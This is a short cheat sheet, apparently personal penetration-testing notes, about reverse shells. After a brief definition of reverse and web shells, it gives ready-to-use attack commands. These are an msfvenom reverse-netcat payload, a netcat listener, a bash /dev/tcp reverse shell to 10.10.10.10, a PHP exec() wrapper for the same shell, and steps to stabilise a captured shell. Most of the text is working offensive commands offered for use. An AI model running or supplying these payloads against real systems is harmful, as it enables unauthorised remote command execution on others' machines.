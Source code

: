 # Reverse Shell
A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

A web shell is a malicious script that enables an attacker to execute arbitrary commands on a remote web server simply by sending HTTP requests to the right endpoint.


# msfvenom
Example: generate a reverse shell payload using msfvenom:
`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`

-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format



listen with `nc`
`nc -lnvp 4444`


# Bash
bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

# PHP - Bash
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'");
may have to scape the quotes
exec(\"/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'\");








# estabilize shell?

```sh
python -c 'import pty;pty.spawn("/bin/bash")'
```


```
script /dev/null -c /bin/bash
CTRL + Z
stty raw -echo; fg
Then press Enter twice, and then enter:
export TERM=xterm
```
